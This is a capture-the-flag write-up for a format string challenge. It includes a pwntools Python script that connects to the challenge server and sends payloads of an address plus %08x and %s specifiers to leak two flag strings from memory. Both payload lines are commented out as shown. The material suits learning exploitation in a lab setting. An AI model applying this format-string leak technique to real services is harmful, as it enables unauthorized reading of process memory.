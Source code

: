 Okay, as the description suggests, the challenge is about a format string attack.
I used Ghidra to disassemble the binary. 


![](https://github.com/r4ksh1t0011/CTF-Writeups/blob/pngs/flag.png)<br> 
<br>

Thus, we found the respective addresses where flag1 and flag2 are located. Now, we only need to extract the data from that address which can be done by exploiting the format string vulnerability. here's a simple script for it.

```
#!/usr/bin/env python
from pwn import *
flag1 = 0x804a02c
flag2 = 0x804a040
port =  18137
host = "hack.scythe2021.sdslabs.co"
#target = process("./f_me")   use it to test the exploit locally

target=remote(host,port)

# First send this payload, you'll get the first part of the flag


#payload = p32(flag1) +('%08x '*6+'%s').encode()

# After you get the first part of the flag, use this payload after removing the first one
#payload = p32(flag2) +('%08x '*6+'%s').encode()
target.recvuntil("ploxx")
target.sendline(payload)
target.interactive()
```
